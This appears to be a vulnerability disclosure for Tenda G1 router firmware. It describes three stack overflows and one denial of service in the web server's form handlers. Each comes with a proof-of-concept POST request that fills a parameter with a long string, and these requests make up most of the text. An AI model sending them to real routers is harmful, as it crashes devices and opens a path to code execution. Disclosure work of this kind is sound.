








# Tenda_G1

Vender ：Tenda

Firmware version:US_G1V1.0br_V15.11.0.16(9024)_CN_TDC.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com) && doudou.zhu@dbappsecurity.com.cn              

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-3040.html

### 1.setStaticRoute_stack_overflow

​	The formsetstaticroute function of httpd in Tenda G1 uses sprintf to copy the post parameters staticroutenet, staticroutemask and staticroutegateway directly to the stack, resulting in stack overflow, which can seriously cause arbitrary code execution

​	Tenda G1中httpd的formsetstaticroute函数使用sprintf将post参数staticroutenet、staticroutemask和staticroutegateway直接复制到堆栈中，导致堆栈溢出，严重时会导致任意代码执行



#### POC



```
POST /goform/setStaticRoute HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 859

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/vpn/pptpClient.html?0.8238531593591928

Cookie: _:USERNAME:_=; G3v3_user=


staticRouteIndex=1&staticRouteNet=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&staticRouteMask=1&staticRouteGateway=1&staticRouteWAN=12
```


### 2.delDhcpRules_stack_overflow

​	In the formdeldhcprule function of httpd in Tenda G1, strcpy is used to copy the post parameter deldhcpindex directly to the stack, resulting in stack overflow, which can seriously cause arbitrary code execution 

​	在Tenda G1中httpd的formDeldhcRule函数中，strcpy用于将post参数deldhcIndex直接复制到堆栈，导致堆栈溢出，这可能会严重导致任意代码执行



#### POC



```
POST /goform/delDhcpRules HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 781

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/virtualServer/upnpConfig.html?0.8942335611254333

Cookie: _:USERNAME:_=; G3v3_user=


delDhcpIndex=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

### 3.formsetportmirror_stack_overflow

​	The formsetportmirror function of httpd in Tenda G1 uses sprintf to directly copy the post parameter portmirrormirrormirrored ports to the stack, resulting in stack overflow, which can seriously cause arbitrary code execution

​	Tenda G1中httpd的formsetportmirror函数使用sprintf直接将post参数portmirrorMirror端口复制到堆栈中，导致堆栈溢出，这可能会严重导致任意代码执行



#### POC



```
POST /goform/setPortMirror HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 554

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/network/wanSet.html?0.6162147196467493

Cookie: _:USERNAME:_=; G3v3_user=

portMirrorEn=true&portMirrorMirroredPorts=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


### 4.formAddPppUser_ Denial_of_service 

​	In the formaddpppuser function of httpd in Tenda G1, if the data passed in the post parameter pppoeserveruserinfo is too large, it will be in  strtok_ The pointer in  function was modified and the program crashed 

​	在Tenda G1中httpd的Formadpppuser函数中，如果post参数pppoeserveruserinfo中传递的数据太大，它将位于strtok_u中。函数中的指针被修改，程序崩溃



#### POC



```
POST /goform/addPPPoEServerUser HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 1208

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/pppoeAuth/pppoeCountManage.html?0.8992328249799562

Cookie: _:USERNAME:_=; G3v3_user=

pppoeServerUserInfo=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

